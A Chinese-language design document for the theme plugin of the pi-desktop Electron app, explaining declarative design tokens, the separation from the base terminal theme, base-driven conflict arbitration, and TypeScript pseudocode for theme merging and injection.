










# 主题插件文档

本文档是 pi-desktop 的设计文档之一，专门讲透"主题插件"这一根支柱的内部默认插件。它不是一份孤立的样式说明——主题插件是 pi-desktop 洋葱架构里"圆心极薄、内容插件化"这一纪律最锋利的切面：core 不内嵌任何视觉常量，颜色、字号、间距、圆角、阴影全部来自主题槽贡献的设计 token。读完本文应该能照着写一个第三方主题插件、能照着排障"主题切换没生效""对比度告警从哪来""跟随系统不工作"这类问题。

本文和 `DESIGN.md` 的关系是：`DESIGN.md` 第 4.11 节给出主题插件的设计立场与契约骨架，第 3.3 节给出主题槽在槽位体系中的位置；本文在这些之上展开实现细节、数据流、生命周期、无障碍约束和真实代码落地路径。涉及 pi 底座的部分会明确区分"底座自己的 TUI 主题"和"pi-desktop 桌面主题"——这是两个不互通的体系，本文只讲后者，但会说明为什么不能复用前者。

---

## 1 主题插件在架构中的定位

### 1.1 它是内容插件，不是基础设施

#### 1.1.1 core 极薄到没有默认配色

pi-desktop 的 core（指桌面壳的四根支柱实现，跑在 Electron main/renderer 进程里）刻意把自己削薄到"连默认配色都没有"的程度。core 渲染时间线、工具卡片、状态栏、模态框、pi.ui 组件库时，所用的每一种颜色、每一个字号、每一段间距、每一个圆角、每一道阴影，都从主题槽贡献的 token 里取值，core 自身不内嵌任何视觉常量。这意味着如果把所有主题插件卸载，core 渲染出来的将是一个"无值可取"的空壳——不是白色也不是黑色，而是 token 缺失。这种"刻意残缺"是有意为之：它把"换一套视觉风格"这件事的代价从"改 core 代码"降到"换一个主题插件"，core 一行不动。

这一点和 i18n 插件是同构的——i18n 让 core 不内嵌任何文案常量、主题让 core 不内嵌任何视觉常量。两者都是"影响 core 自身渲染的内容插件"，是 VSCode 式薄壳模型里"内核只认槽位契约、不认具体内容"的镜像。VSCode 的默认主题、默认语言包都是 extension、可被覆盖；pi-desktop 的内置主题插件同理，架构地位和第三方插件平等，走同一套加载器、同一套槽位契约，优先级最低、可被覆盖。

#### 1.1.2 纯声明式意味着零运行时代码

主题插件是纯声明式插件——只有 token 值、没有代码模块（没有 `main`、没有 `renderer`）。一份 `plugin.json` manifest 里声明 `contributes.themes`，每个主题贡献项是 `{ id, name, tokens, base? }` 四个字段的数据结构，加载器在加载管线的外层（发现→合并→校验→挂载）就把 token 挂进主题槽注册表，全程不进入"带代码模块的运行时管理"那一层（生命周期/worker/沙箱/热重载）。这带来三个直接后果：

- 主题插件的加载是零运行时成本——不 spawn worker、不 activate、不占 MessagePort，纯数据挂载。
- 主题插件不可能因"代码抛错"拖垮 core——它没有代码可抛错，唯一的失败模式是 manifest 校验失败（token 值非法、缺必填字段），那是加载前隔离。
- 主题插件的"安装"和"启用"在数据层是一回事——只要 manifest 被加载器发现并通过校验、token 挂进主题槽，它就生效了，没有"装了但没启用"的中间态（"当前用不用"是另一回事，由当前主题 id 决定）。

### 1.2 与底座 TUI 主题的边界

#### 1.2.1 底座有自己的主题体系，但不互通

pi 底座（`@earendil-works/pi-coding-agent`，跑成 `pi --mode rpc` 子进程）自身有一套完整的终端主题体系，落在 `packages/coding-agent/src/modes/interactive/theme/` 目录下：`theme.ts` 定义 `Theme` 类型和加载/校验逻辑，`theme-controller.ts` 是 `InteractiveThemeController`（监听终端配色变化、自动同步明暗），`dark.json`/`light.json` 是内置主题文件，`theme-schema.json` 是 JSON Schema。底座的主题 schema 里定义的是终端语义色——`accent`/`border`/`success`/`error`/`muted`/`text`、`userMessageBg`/`toolPendingBg`/`toolSuccessBg`、`mdHeading`/`mdCode`/`mdCodeBlock`、`syntaxComment`/`syntaxKeyword` 等，颜色值可以是 hex 字符串（`#ff0000`）、变量引用（`"accent"` 指向 `vars.accent`）或 256 色索引（整数 0–255）。

这套体系是给终端 TUI 用的——`@earendil-works/pi-tui` 的 `Component` 树渲染时读这些色。pi-desktop 是 Electron/React/Web，吃不下 TUI Component（这是 现有方案的问题的根，见 `DESIGN.md` 3.1.1），自然也不该把底座的终端主题"翻译"成 Web 主题。pi-desktop 的立场是：**底座对桌面插件而言只是"通过 RPC 和配置文件能触达的一组 pi 能力"，是被管理对象，不是要被适配的同胞插件体系**。底座主题管底座终端怎么画，桌面主题管桌面 GUI 怎么画，两者井水不犯河水。

#### 1.2.2 为什么不共享 token

一个自然的疑问是：能不能让桌面主题复用底座主题的色值，避免用户配两套？答案是有意不这么做，原因有三：

第一，语义不对齐。底座主题的色是终端语义（`toolPendingBg`/`mdCodeBlock`/`syntaxKeyword`），桌面主题的色是 GUI 语义（`color.bg`/`color.surface`/`color.primary`/`shadow.md`）。强行映射会在两边都引入"翻译损失"——底座加一个终端色，桌面要猜它对应哪个 GUI 语义；桌面要一个阴影色，底座没有对应概念。

第二，token 维度不同。桌面主题除了颜色还有字号（`font.size.base`）、间距（`spacing.md`）、圆角（`radius.lg`）、阴影（`shadow.sm`），这些在终端主题里根本不存在（终端没有圆角、没有阴影、字号由终端模拟器定）。共享色值只是色这一个维度，其余维度桌面还是要自己定义，等于共享了一半、独立了一半，反而模糊边界。

第三，演化方向不同。底座主题会随终端能力演化（比如未来支持真彩色检测、支持终端主题自动检测的置信度策略，见 `theme-controller.ts` 的 `detectTerminalBackgroundTheme` 返回 `confidence: "high"|"low"`），桌面主题会随 GUI 设计趋势演化（设计系统、无障碍对比度约束）。把两者绑在一起，任何一边的改动都会牵连另一边，违反"组装和调用应该分开"。

所以 pi-desktop 的桌面主题是独立体系，token key 自己定义、值自己填、校验自己管。底座 settings 里的 `theme` 字段（`~/.pi/agent/settings.json` 的 `theme?: string`，见底座 `settings-manager.ts:91`）管的是底座终端主题，和桌面主题无关——桌面主题存在桌面端偏好（electron-store），不进 pi settings。这个边界一旦守住，桌面端就不会去碰底座的主题状态管理。



**图 1 — 桌面主题与底座 TUI 主题是两套不互通的体系，RPC 通道不传主题**

### 1.3 主题槽在槽位体系中的位置

#### 1.3.1 八槽之一，但影响 core 自身

pi-desktop 的 core 维护八个槽位（语言/主题/管理/卡片渲染/侧栏/预览器/命令项/设置子页），主题槽（`themes`）是其中之一。但主题槽和语言槽一样**特殊**：它不是"渲染某个区域时查注册表拿贡献项"的模式，而是"core 启动时合并 token 成圆心 `Theme` 对象、经 pi.ui 和 props 注入"。也就是说，主题槽的影响面是 core 自身渲染——时间线、工具卡片、状态栏、模态框、pi.ui 组件库全部受它驱动。其余六个槽位（管理/卡片渲染/侧栏/预览器/命令项/设置子页）只影响"插件贡献的 UI 区域"，core 自身的渲染不依赖它们。

这个特殊性决定了主题槽的冲突仲裁规则也和别的槽位不同——见 1.3.3。

#### 1.3.2 贡献项的字段契约

主题槽贡献项的字段 schema（插件作者照着写、加载器照着校验）：

```typescript
// domain/slots/schema.ts 里主题槽贡献项的形状
interface ThemeContribution {
  id: string;            // 主题标识，如 "dark"/"light"/"solarized"/"acme-brand"
  name: string;         // 展示名（i18n key 或裸字符串），管理 UI 主题选择器用
  tokens: Record<string, string>;  // token key → 值映射，见第 3 节 token 清单
  base?: string;        // 继承的父主题 id，见第 5 节主题继承
}
```

四个字段里 `id`/`name`/`tokens` 必填，`base` 可选。`tokens` 的 key 必须是 core 定义的稳定 token 清单里的 key（第 3 节），值是字符串。core 不校验值的"是不是合法颜色"——它只校验 key 在清单内、值是字符串类型；值的语义校验（hex 格式、对比度）在运行时主题合并阶段做（第 8 节）。这是"加载时校验结构、运行时校验语义"的分层——加载器不感知主题语义，避免把颜色解析逻辑塞进加载管线。

#### 1.3.3 冲突仲裁：合并语义而非二选一

主题槽的冲突仲裁和别的槽位不同。判别一个贡献项走哪条仲裁路径，唯一依据是它**是否声明了 `base` 字段**——这一条判据决定了它是"整套候选"还是"补丁候选"，进而决定它和别的同 id 贡献项怎么相互作用。具体分两条路径：

- **整套主题候选（不声明 `base`）**：贡献项提供一整套 token、不靠继承。多个插件都贡献了 id 为 `dark` 的整套主题时，走和命令项槽同构的"同 id 二选一"——按来源插件优先级取高优先级那个、低优先级那个整体不挂载（记冲突）。注意这里是"二选一"不是"合并"：两个不声明 base 的同 id 主题不会把 token 拼起来，高优先级那个整条取胜、另一个整条丢弃。
- **补丁主题候选（声明 `base`）**：贡献项声明了 `base`（如 `base: "dark"`），表示自己是一个"继承父主题、只覆盖部分 token"的子主题。它**按自己的 id 注册进注册表**：id 唯一时直接进、和别的同 id 补丁同 key 冲突按优先级覆盖。合并阶段被单独选中时才递归解析 base 继承。也就是说，声明 base 的主题既是一个可被选中的独立主题、又是一个继承者。**same-id 例外**：若一个声明 base 的补丁与某个同 id 的整套主题碰撞（如某插件贡献 `id: "dark"` 且声明 `base: "dark"`、和内置 `dark` 同 id），它在挂载时作为 token 补丁按 key 覆盖到同 id 整套上、其 `base` 字段被**丢弃**（合并条目沿用被覆盖条目的 `base`）、`base` 继承**不触发**——它的 tokens 直接覆盖到被覆盖条目上；仅当该补丁自身 id 独特、被单独选为 `currentThemeId` 时，`resolveTheme` 才读它的 `base` 递归解析继承（见 15.2.2 / 17.1.1 第四步）。丢弃 base 避免"补丁 base 指向同 id 整套"形成 base===themeId 的自引用循环。所以"声明 base 的主题被单独选中才走继承、被同 id 合并时只贡献 token 覆盖、其 base 被丢弃"——它不会"把 token 塞进别的 id 的主题"。

这条判据澄清了一个常见的误解："两个插件都给 `dark` 主题贡献 token、key 不重叠就合并进 dark"——**这种直接往 `dark` 里塞 token 的合并不存在**。两个不声明 base 的同 id 贡献只走二选一；要让"多个插件共同塑造 dark"成立，唯一的办法是其中一方声明 `base: "dark"`、作为一个继承 dark 的子主题存在（它的 id 自己定、如 `acme-dark`），用户选中那个子主题时才会把 dark 的 token 打底再覆盖。所以"多插件给 dark 补 token"在实现上等价于"声明 base 的子主题覆盖 dark 的部分 token"，而不是直接合并 dark。

这个"按 base 分流"是主题槽的专属规则，在通用仲裁（`resolveByPriority`，见 `DESIGN.md` 3.5 第 7 项和 5.1.5 的共享原语）之外。挂载顺序是：先按是否声明 `base` 把贡献项分流成"整套候选"和"补丁候选"两组；整套候选同 id 二选一、选出每个 id 的整套 token；补丁候选按自己的 id 注册（同 id 的多个补丁按优先级做 key 级覆盖）；两组都写进注册表、最终都按 id 可被选中。详见第 17.1.1 节的伪代码。



**图 2 — 主题槽两层仲裁：按是否声明 base 分流；整套候选同 id 二选一、补丁候选按自身 id 注册并保留 base 待合并时解析**

> **与 `DESIGN.md` 3.3 的关系**：本节的“按 base 分流”规则是对 `DESIGN.md` 3.3 主题槽条款的**细化收敛**。`DESIGN.md` 3.3 已同步修订：主题槽冲突仲裁不再表述为“同语言槽的 key 级合并”，而是明确指向本节的 base 分流规则（整套同 id 二选一 + 声明 base 的补丁按自身 id 注册 + same-id 碰撞时补丁 base 丢弃、不触发继承）。两个文档现就以本规则为准、无跨文档歧义。

---

## 2 数据流：从 token 贡献到 GUI 像素

### 2.1 端到端数据流全景

#### 2.1.1 五段路径

一个 token 从被主题插件声明，到最终变成屏幕上的像素，经过五段路径：贡献→挂载→合并→注入→渲染。每段路径归不同的层负责，层与层之间靠数据结构（不是函数调用）传递，这让每段可以独立测试和演化。



**图 3 — 主题数据流五段路径：贡献→挂载→合并→注入→渲染**

#### 2.1.2 各段归属的层

按 `DESIGN.md` 5.1.4 的洋葱目录结构，这五段分属不同层：

- **贡献**（第 1 段）：`src/plugins/theme/`（内置主题插件，第四外层，只依赖 domain 契约）。纯数据，`plugin.json` + token 值文件。
- **挂载**（第 2 段）：`src/application/loader/mount.ts`（支柱③加载器，第二外层）。调 `domain/slots/registry.ts` 把贡献项写进注册表，纯数据操作。
- **合并**（第 3 段）：`src/application/theme/`（用例编排层，负责"按当前主题 id 取 tokens + base 继承合并 + 对比度校验"）。这一段是本文的重点实现区。
- **注入**（第 4 段）：`src/shell/renderer/plugin-context.ts`（第三外层）。把合并后的圆心 `Theme` 对象通过 React Context 或 props 注入给组件。
- **渲染**（第 5 段）：`src/shell/renderer/ui/`（pi.ui 组件库）+ 第三方插件组件。组件读 `theme` 渲染。

圆心（`domain/`）只提供 `Theme = Record<string, string>` 这个类型定义和 token key 清单常量，不参与任何一段的处理逻辑——它只描述契约，处理全在外层。这是"依赖只向内"的体现：圆心是最稳定的契约层，token 合并、注入、渲染这些会变的逻辑都在外层。

### 2.2 合并阶段：从注册表到圆心 Theme 对象

#### 2.2.1 合并的输入与输出

合并阶段的输入是主题槽注册表（`SlotRegistry["themes"]`，按主题 id 聚合的 token 贡献）和当前主题 id（`currentThemeId`，来自 electron-store 偏好）。输出是圆心 `Theme` 对象——`Record<string, string>`，token key → 值的扁平映射。这个对象是 core 渲染时唯一消费的主题数据结构，下游所有组件只读它、不读注册表。

合并不是"把所有主题的 token 全合一起"，而是"取当前主题 id 对应的那一个主题的 tokens，如果它声明了 `base`，先把 base 主题的 tokens 取来打底、再用它自己的 tokens 覆盖"。继承链可以嵌套（A 继承 B、B 继承 C），合并时按链递归取，自底向上覆盖。要防循环继承（A 继承 A、或 A→B→A），检测到环就报错、把该主题标记为不可用、记入诊断页。

#### 2.2.2 合并算法伪代码

```typescript
// application/theme/merge.ts —— 主题合并（圆心只提供 Theme 类型，实现在 application 层）
// 注：含 __auto__ 动态 base 的分支见第 7.1.1 节，此处为基础形态
function resolveTheme(themeId: string, registry: ThemeRegistry, seen: Set<string> = new Set()): Theme {
  if (seen.has(themeId)) {
    throw new ThemeError(`循环继承: ${[...seen, themeId].join(" → ")}`);
  }
  seen.add(themeId);
  const entry = registry.get(themeId);  // 该主题的聚合 token（已按 base 分流挂载，见 17.1.1）
  if (!entry) throw new ThemeError(`主题不存在: ${themeId}`);
  let merged: Record<string, string> = {};
  if (entry.base === "__auto__") {
    // 动态 base 分支：见 7.1.1 的 resolveAutoBase
    Object.assign(merged, resolveTheme(resolveAutoBase(), registry, seen));
  } else if (entry.base) {
    // 先取父主题的 token 打底
    Object.assign(merged, resolveTheme(entry.base, registry, seen));
  }
  // 再用本主题的 token 覆盖
  Object.assign(merged, entry.tokens);
  return merged;  // 圆心 Theme 对象（未含默认值补齐）
}

// 合并入口：当前主题 id → Theme
// 注：resolveTheme 抛 ThemeError（循环继承/base 不存在）时，本函数捕获、不向 core 上抛——
//     返回 THEME_TOKEN_DEFAULTS 产出的兜底 Theme + error 标记，由调用方据 error 触发 fallback 链
//     （启动恢复/用户切换/IPC 重合并三处调用点统一依赖此出口，见 6.2.2 / 12.2.1 / 7.2.1）。
function buildCurrentTheme(
  currentThemeId: string,
  registry: ThemeRegistry,
): { theme: Theme; warnings: ContrastWarning[]; error?: { kind: "unavailable"; themeId: string; reason: string } } {
  let raw: Record<string, string>;
  try {
    raw = resolveTheme(currentThemeId, registry);
  } catch (e) {
    if (!(e instanceof ThemeError)) throw e;  // 非 ThemeError 的意外异常仍上抛
    // 该主题不可用：返回兜底 Theme + 错误标记，ThemeContext 暂不更新、由调用方走 fallback 链
    const fallback: Theme = { ...THEME_TOKEN_DEFAULTS };
    fallback["border.color"] = fallback["color.border"];
    return {
      theme: fallback,
      warnings: [{
        pair: { fg: "", bg: "" }, fgValue: "", bgValue: "", ratio: NaN, required: 0,
        message: `主题 ${currentThemeId} 不可用: ${e.message}`,
      }],
      error: { kind: "unavailable", themeId: currentThemeId, reason: e.message },
    };
  }
  // 默认值补齐：遍历 THEME_TOKEN_KEYS，缺失的 key 用 THEME_TOKEN_DEFAULTS 填上（见 15.1.2）
  const theme: Theme = { ...THEME_TOKEN_DEFAULTS, ...raw };
  // 派生 token：border.color 不在 tokens 里就 fallback 到 color.border（见 3.7）
  if (!raw["border.color"]) theme["border.color"] = theme["color.border"];
  // 值格式校验：见 22.1.3
  const formatWarnings = validateTokenFormats(theme);
  // 对比度校验：见第 8 节，运行时对比度校验
  const contrastWarnings = validateContrast(theme);
  return { theme, warnings: [...formatWarnings, ...contrastWarnings] };
}
```

`resolveTheme` 是递归的、带环检测的纯函数（含 `__auto__` 动态 base 分支，与第 7.1.1 节为同一权威实现）。`buildCurrentTheme` 是合并入口：先 `resolveTheme` 拿到继承合并的 token、再做默认值补齐（`THEME_TOKEN_DEFAULTS` 兜底，保证合并后 `Theme` 永远含全部 key）、补 `border.color` 派生值、跑值格式校验与对比度校验（第 8 节），把警告收集起来塞给诊断页。注意对比度与格式校验失败都不抛错——它们只产生警告、不禁用主题（见 8.3、22.1.3）。`resolveTheme` 抛 `ThemeError`（循环继承/base 不存在）时，`buildCurrentTheme` 捕获、不向 core 上抛——返回 `THEME_TOKEN_DEFAULTS` 兜底 `Theme` + `error` 标记，由调用方（启动恢复/用户切换/IPC 重合并）据 `error` 触发 fallback 链。这是把异常处理内聚到合并入口、避免 `ThemeError` 在不同调用路径上冒泡的设计（见 6.2.2 / 12.2.1）。

### 2.3 注入阶段：React Context 还是 props

#### 2.3.1 两条注入路径

合并产生的圆心 `Theme` 对象有两条注入路径到组件：

- **React Context 路径**（pi.ui 组件库用）：core 在 renderer 根挂一个 `ThemeContext.Provider`，value 是当前 `Theme` 对象。pi.ui 的 `Button`/`Input`/`Dialog`/`Icon` 等组件内部 `useContext(ThemeContext)` 读 token、渲染样式。这条路径让 pi.ui 组件自动跟主题——主题切换时 `ThemeContext` 的 value 变、所有消费它的组件重渲染。第三方插件用 pi.ui 组件也自动获得主题跟随，不用自己订阅。
- **props 路径**（cardRenderer 和自定义元素用）：core 在渲染某个 cardRenderer 组件时，把当前 `Theme` 作为 props 的一个字段传入（`DESIGN.md` 3.2.6 的 cardRenderer props 契约里有 `theme: Theme`）。第三方插件要画"内置组件库没有的自定义元素"时，经 props 的 `theme` 字段直接读 token（如 `theme["color.primary"]`）。

